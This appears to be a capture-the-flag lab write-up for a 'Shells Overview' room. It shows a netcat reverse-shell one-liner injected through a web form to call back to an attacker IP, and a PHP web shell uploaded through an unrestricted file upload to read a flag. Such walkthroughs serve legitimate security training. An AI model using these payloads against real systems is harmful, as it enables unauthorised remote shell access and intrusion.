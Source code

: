 # Activity performed as part of Shells Overview

- **Pre-requisite** :
1. Start bith target machine and the Attack box provided in the room.

- **Practical Task** :
- **1. command injection vuln** :
1. Navigate to the target: <Traget>:8080.
2. Click on the command injection vuln(Reverse/Bind Shell Task).
3. User should be able to view the text box accepting input.
4. Enter the command: "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <ATTACKER_IP> <ATTACKER_PORT> >/tmp/f" in the textbox 
5. On the Attacker machine use command:"nc -lvnp <PORT>". Then click on enter on the input provided for the textbox.

- **2. unrestricted file upload** :
1. Navigate to the target: <Traget>:8080.
2. Click on the command injection vuln(Web Shell Task).
3. Create a shell.php file with th code below.
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
4. Upload the file using the upload functionality.
5. Using the endpoint:"http://<Target>:<PORT>/uploads/shell.php?cmd=cat%20flag.txt". Get the flag.

